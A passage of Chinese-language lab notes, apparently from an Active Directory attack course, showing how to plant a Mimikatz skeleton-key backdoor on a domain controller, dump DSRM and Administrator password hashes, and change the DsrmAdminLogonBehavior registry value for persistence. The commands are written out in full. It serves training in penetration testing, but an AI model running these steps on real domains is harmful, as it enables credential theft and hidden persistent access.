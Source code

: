 再次进入DC
```
 Enter-PSSession -Session $sess
```

执行mimikatz，制作万能钥匙
```
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"'
```

开一个学生shell使用下面命令以student359的身份进入主机
```Enter-PSSession –Computername dcorp-std359.dollarcorp.moneycorp.local –credential dcorp\student359```



![image-20220306214152645](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20220306214152645.png)



输入密码：mimikatz



成功登陆

![image-20220306214255750](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20220306214255750.png)

# Learning Objective 11:
```Task
● Use Domain Admin privileges obtained earlier to abuse the DSRM credential for persistence.
```



目录服务还原模式。除了krbtgt服务帐号外，域控上还有个可利用的账户：目录服务还原模式（DSRM）账户，这个密码是在DC安装的时候设置的，所以一般不会被修改

用有DA权限的shell，运行下面命令，dump出DSRM的哈希密码

![image-20220306220745688](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20220306220745688.png)



这里会出现Administrator的哈希(也就是DSRM的密码)：```a102ad5753f4c441e3af31c97fad86fd```

再用下面命令dump出现在Administrator的密码，与上面DSRM的密码进行比较

![image-20220306220856677](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20220306220856677.png)

新的密码是：```af0686cc0ca8f04df42210c9ac980760```

DSRM administrator不允许登陆，用之前的session进入DC修改

要先bypass ASMI

再运行下面命令，修改DSRM的远程登录策略
```
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD
```
